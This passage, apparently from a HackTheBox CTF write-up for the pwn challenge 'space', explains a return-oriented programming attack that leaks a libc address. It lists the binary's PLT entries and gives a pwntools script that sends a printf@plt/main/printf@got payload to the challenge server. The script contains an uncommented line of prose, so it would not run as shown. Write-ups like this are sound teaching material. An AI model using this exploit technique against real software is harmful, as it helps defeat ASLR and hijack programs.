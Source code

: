 
## ROP Method.

lets exploit it with `ROP` method.

let first check the plt table of binary.

```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $objdump -D -j .plt space | grep '@plt'
08049030 <read@plt>:
08049040 <printf@plt>:
08049050 <fflush@plt>:
08049060 <strcpy@plt>:
08049070 <__libc_start_main@plt>:
```

### Leaking libc address

lets use printf to leak libc address , we can use any of the available function but i choose to go with printf.

our payload will look.

`junk + plt_printf + main + got_printf`

just like in our previous method junk will be 18 bits and the main address from plt table is used so the program return to main and doesn't crash and terminate.we need to keep it alive cause in every run the address of the binary changese due to `aslr` enabled on the remote machine. 


```shell
!/usr/bin/python

from pwn import *

elf = context.binary = ELF("./space")

host = "docker.hackthebox.eu"
port = 30370

junk = "A"*18
plt_printf = p32(elf.plt["printf"] )
main = p32(elf.sym["main"])
got_printf = p32(elf.got["printf"])

print "plt@printf", hex(u32(plt_printf))
print "plt@main", hex(u32(main))
print "plt@printf", hex(u32(got_printf))
send paylaod and recv leak and retun to main (don't let the progam crash )

payload = junk + plt_printf + main + got_printf


io = remote(host,port)
io.recvuntil(">")
io.sendline(payload)
leak = io.recvuntil(">")
leak_printf = u32(leak[1:5])
print "printf@leak", hex(u32(leak[1:5]))

```
